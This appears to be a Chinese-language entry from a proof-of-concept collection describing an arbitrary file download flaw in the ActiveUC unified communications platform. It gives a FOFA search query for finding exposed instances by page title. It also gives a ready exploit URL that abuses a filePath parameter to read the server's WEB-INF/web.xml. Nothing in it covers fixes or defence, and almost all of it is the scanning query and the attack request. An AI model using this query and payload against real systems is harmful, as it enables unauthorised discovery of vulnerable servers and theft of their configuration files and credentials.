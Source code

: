 ## 网动统一通信平台ActiveUC存在任意文件下载漏洞


## fofa
```
title="网动统一通信平台(Active UC)"
```


## poc
```
http://ip/acenter/meetingShow!downloadDocument.action?filePath=WEB-INF/web.xml&filename=xxx
```
